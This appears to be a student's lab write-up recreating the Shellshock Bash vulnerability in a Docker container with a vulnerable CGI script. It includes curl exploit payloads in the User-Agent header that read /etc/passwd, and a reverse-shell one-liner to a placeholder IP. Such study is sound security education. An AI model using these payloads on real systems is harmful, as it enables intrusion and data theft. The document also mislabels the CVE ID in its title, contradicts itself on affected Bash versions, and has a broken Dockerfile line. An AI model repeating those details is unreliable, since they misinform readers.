# CVE Recreation: Shellshock (CVE-2022-30190)

### Details

CVE ID: <br>
**CVE-2022-30190**

Vulnerability Name: <br>
**Shellshock**

Vulnerable Software: <br>
**GNU Bash (versions < 4.3)**

Vulnerability Type: <br>
**Remote Code Execution (via crafted environment variables)**

Severity: <br>
**9.8 CVSS v3 (Critical), 9.3 CVSS v2 (High)**

---

### Summary

CVE-2014-6271, known as "Shellshock", is a critical vulnerability in GNU Bash that allows attackers to execute arbitrary commands by injecting specially crafted environment variables. It was discovered in 2014 and affects systems where Bash is used to process environment variables, particularly in network services like CGI scripts on web servers. 

The bug occurs because Bash improperly executes function definitions passed as environment variables, and mistakenly continues parsing and executing commands following the function.

---

### Example of the Vulnerability

To test if a version of Bash is vulnerable, use:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If the Bash version is vulnerable, it will output:
```
VULNERABLE
test
```

### How it works

-	`env x='() { :;}; echo VULNERABLE'` creates an environment variable x that looks like a function definition.
-	Bash is supposed to define x as a function and ignore the rest.
-	However, vulnerable versions of Bash continue parsing after the function, executing echo VULNERABLE, which is the flaw.

---

### Test Environment Setup

•	OS: Ubuntu 14.04

•	Bash version: 4.3.8 (unpatched, vulnerable confirmed via env test)

•	Web server: Apache2 with CGI enabled

•	Vulnerable script: Bash-based CGI script at /usr/lib/cgi-bin/vulnerable.sh

<br>

I first tested this in a raw Ubuntu 14.04 virtual machine:

<br><br>

`Bash –-version`:

<br><br>

Then ran:

`env x='() { :;}; echo VULNERABLE' bash -c "echo test"`:

<br><br>

Result confirmed it was vulnerable.

---

### Turning into a Docker Image

To make this reproducible and portable, I created a simple Docker container using Ubuntu 14.04 with Apache and a vulnerable Bash CGI script:

```dockerfile
FROM ubuntu:14.04

# Install Apache, build tools, wget, dos2unix, etc.
RUN apt-get update && \
    apt-get install -y apache2 wget build-essential curl dos2unix && \
    apt-get install -y --no-install-recommends software-properties-common && \
    apt-get clean

# Install Bash 4.3 (vulnerable version)
WORKDIR /tmp
RUN wget http://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz && \
    tar -xvzf bash-4.3.tar.gz && \
    cd bash-4.3 && \
    wget http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-001 && 
    patch -p0 < bash43-001 && \
    ./configure && make && make install && \
    bash --version

# Replace the system's bash with the vulnerable one
RUN mv /bin/bash /bin/bash.bak && ln -s /usr/local/bin/bash /bin/bash

RUN a2enmod cgi
RUN mkdir -p /usr/lib/cgi-bin
COPY vulnerable.sh /usr/lib/cgi-bin/vulnerable.sh
RUN dos2unix /usr/lib/cgi-bin/vulnerable.sh
RUN chmod +x /usr/lib/cgi-bin/vulnerable.sh

EXPOSE 80

CMD ["/bin/bash", "-c", "rm -f /var/run/apache2/apache2.pid && apache2ctl -D FOREGROUND"]
```

And the `vulnerable.sh` CGI script:
```.sh
#!/bin/bash
echo "Content-type: text/html"
echo
echo "Vulnerable CGI script"
```

Built and ran with:
```cmd
docker build -t shellshock_lab .
docker run --rm -it -p 8080:80 shellshock_lab
```

Then accessed at:
```html
http://localhost:8080/cgi-bin/vulnerable.sh
```

---

### How to use the Docker

On your machine, run `sudo docker pull oscaryr/shellshock_lab:latest` to pull the docker:

<br><br>

Then, `sudo docker run -p 8080:80 oscaryr/shellshock_lab:latest` to run the docker:



> Note: **The AH00558: apache2: message can be safely ignored**

<br><br>

Browse to `localhost:8080/cgi-bin/vulnerable.sh` to verify if the Shellshock CGI is working:

<br><br>

The terminal that running the docker won’t be interactable, we need to open a new terminal and access to the docker:

`sudo docker ps` to show existing dockers
<br><br>

`sudo docker exec -it [container_name or ID] /bin/bash` to interact with the docker
<br><br>

We can now exploit the Bash vulnerability via the CGI script using a malicious HTTP header:

#### Exploit Commands

1. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost/cgi-bin/vulnerable.sh`
   
   <br>

   - Apache passes all HTTP headers as environment variables to the CGI script.
   - The User-Agent header becomes an environment variable, like:
     `export HTTP_USER_AGENT="() { :; }; /bin/bash -c 'cat /etc/passwd'"`
   - Since Bash is vulnerable, it doesn’t stop after defining the fake function, and continues to execute the rest. In this case, it's `cat /etc/passwd`.
   - This is how remote command execution happens.

<br>

2. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'" http://localhost/cgi-bin/vulnerable.sh`

   <br><br>

3. `curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'touch /tmp/shellshock_worked'" http://localhost/cgi-bin/vulnerable.sh`
   <br><br>

#### Reverse Shell Demonstration

Open another new terminal, set up the listener:

<br><br>

Back to the interactive docker terminal:
```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'" \
http://localhost/cgi-bin/vulnerable.sh
```

<br><br>

Result:



> Note: **To stop the terminal that running the docker, on the second terminal, exit the interaction of docker, then use sudo docker stop [Container Name or ID]**

---

### Patch & Mitigation

- Upgrade to a patched version of Bash (≥ 4.3.27)
- Use security tools like AppArmor or SELinux to restrict CGI behavior
- Avoid using Bash for CGI scripts

To verify it’s patched, run the same command:
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

If it only outputs:
```bash
test
```

Then it’s not vulnerable:

<br><br>

---

### Reflection

I learned a lot of important security lessons from the Shellshock vulnerability (CVE-2014-6271), particularly about how Bash parses environment variables and how CGI scripts pass HTTP headers into shell environments. It showed how simple it is to use HTTP headers as attack vectors in the scenario where input sanitization is inadequate. This vulnerability helped me to gain hands-on experience in building vulnerable environments within Docker, allowing me to better understand the risks of legacy systems and how they can be exploited in the real world. Even though Shellshock is relatively simple and straightforward, it still serves as a reminder of how crucial it is to properly validate input and to fix security holes in out-of-date systems in order to stop significant exploitation.

